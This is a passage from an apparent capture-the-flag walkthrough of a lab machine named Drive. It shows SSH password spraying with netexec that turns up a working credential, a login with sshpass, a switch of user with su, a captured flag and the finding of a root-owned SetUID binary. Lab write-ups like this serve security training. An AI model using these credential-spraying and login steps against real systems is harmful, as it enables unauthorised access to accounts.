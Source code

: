 ### SSH

#### Identify Password

To quickly check is any of these work over SSH, I’ll create a text file with
one per line, and feed it to `netexec`:

    
    
    oxdf@hacky$ netexec ssh drive.htb -u tom -p tom_passwords 
    SSH         10.10.11.235    22     drive.htb        [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
    SSH         10.10.11.235    22     drive.htb        [-] tom:john316 Authentication failed.
    SSH         10.10.11.235    22     drive.htb        [-] tom:john boy Authentication failed.
    SSH         10.10.11.235    22     drive.htb        [-] tom:johniscool Authentication failed.
    SSH         10.10.11.235    22     drive.htb        [+] tom:johnmayer7  - shell access!
    

It works!

#### Shell

I’ll connect over SSH:

    
    
    oxdf@hacky$ sshpass -p 'johnmayer7' ssh tom@drive.htb
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64)
    ...[snip]...
    tom@drive:~$
    

`su` also works from the shell as martin:

    
    
    martin@drive:/dev/shm$ su - tom
    Password: 
    tom@drive:~$
    

Either way, I can grab `user.txt`:

    
    
    tom@drive:~$ cat user.txt
    20b6a381************************
    

## Shell as root

### Enumeration

In the tom user’s home directory, there’s a `doodleGrive-cli` file that’s
owned by root and set as SetUID:

    
    
    tom@drive:~$ ls -l
    total 876
    -rwSr-x--- 1 root tom 887240 Sep 13 13:36 doodleGrive-cli
    -rw-r----- 1 root tom    719 Feb 11  2023 README.txt
    -rw-r----- 1 root tom     33 Feb 12 21:26 user.txt
    
